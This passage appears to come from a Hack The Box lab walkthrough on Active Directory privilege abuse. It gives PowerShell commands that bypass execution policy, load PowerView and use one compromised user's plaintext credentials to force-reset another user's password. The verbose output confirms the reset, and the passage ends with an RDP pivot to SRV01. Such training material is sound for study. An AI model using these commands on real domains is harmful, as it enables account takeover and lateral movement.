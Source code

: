 #### Import PowerView Module

```powershell-session
Set-ExecutionPolicy Bypass -Force
Import-Module C:\tools\PowerView.ps1
```

Create a PSCredential object with Grace's credentials:

```powershell-session
$SecPassword = ConvertTo-SecureString 'Password11' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\grace', $SecPassword)
```

Then create a secure string object for the password we want to set to Rosy:

```powershell-session
$UserPassword = ConvertTo-SecureString 'NewRossyCreds!' -AsPlainText -Force
```

Use the function `Set-DomainUserPassword` with the option `-Identity`, which corresponds to the account we want to change its password (rosy), add the option `-AccountPassword` with the variable that has the new password, use the option `-Credential` to execute this command using Grace's credentials. Finally, set the option `-Verbose` to see if the change was successful.

```powershell-session
PS C:\htb> Set-DomainUserPassword -Identity rosy -AccountPassword $UserPassword -Credential $Cred -Verbose
VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'rosy'
VERBOSE: [Set-DomainUserPassword] Password for user 'rosy' successfully reset
```

We can now connect via RDP to `SRV01` using `Rosy` account.